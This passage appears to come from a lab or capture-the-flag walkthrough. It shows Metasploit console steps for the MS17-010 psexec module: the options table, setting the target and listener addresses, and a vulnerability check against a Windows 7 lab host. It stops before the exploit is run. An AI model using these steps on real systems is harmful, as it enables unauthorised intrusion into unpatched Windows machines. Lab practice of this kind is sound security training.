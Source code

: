 Show the options for the exploit:
```
msf6 > show options
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

[...]

```

Set configurations for the exploit:
```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Check if the target is vulnerable:
```
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```
